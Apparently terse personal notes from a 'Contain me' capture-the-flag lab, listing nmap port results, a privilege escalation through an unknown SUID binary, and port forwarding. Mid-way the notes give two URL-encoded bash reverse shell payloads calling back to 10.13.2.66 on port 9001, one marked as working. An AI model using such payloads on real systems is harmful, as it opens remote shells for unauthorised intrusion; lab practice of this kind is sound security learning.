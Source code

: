 Contain me
probably some sort of container challenge
only one flag


ip goes to default apache 
nmap gives us 4 ports
80 html
22 ssh
2222 EtherNetIP-1?
8022  ssh


sh%2520-i%2520%253E%2526%2520%252Fdev%252Ftcp%252F10.13.2.66%252F9001%25200%253E%25261
that one didnt work^^^^ 
this one did >>>
%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.13.2.66%2F9001%200%3E%261


linpeas on machine -rwsr-xr-x 1 root root 351K Jul 30  2021 /usr/share/man/zh_TW/crypt (Unknown SUID binary!)
pass arguement to crypt and get root 
prot forward to ssh to another maching